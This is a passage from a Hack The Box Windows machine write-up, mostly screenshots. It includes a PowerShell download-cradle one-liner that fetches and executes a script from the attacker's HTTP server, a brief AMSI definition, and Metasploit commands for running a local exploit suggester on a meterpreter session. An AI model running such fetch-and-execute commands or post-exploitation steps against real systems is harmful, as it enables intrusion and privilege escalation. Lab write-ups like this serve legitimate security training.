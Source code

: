 ```sh
cat powershell_attack.txt | xclip
```

- save that powershell script in a file

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/29.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/30.jpg)

```ps
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.225:8000/exp1.html')" 
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/31.jpg)

  ##### AMSI
The **Windows Antimalware Scan Interface** (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.


### Privilege Escalation

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/32.jpg)

- send the meterpreter session to background

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/33.jpg)

- Local exploit suggester for privilege escalation

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/34.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/35.jpg)

```sh
search suggest
post/multi/recon/local_exploit_suggester
use post/multi/recon/local_exploit_suggester
show options
set SESSION 1
run

# retun to session
sessions -i 1
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/36.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/37.jpg)

- ps -a list running services
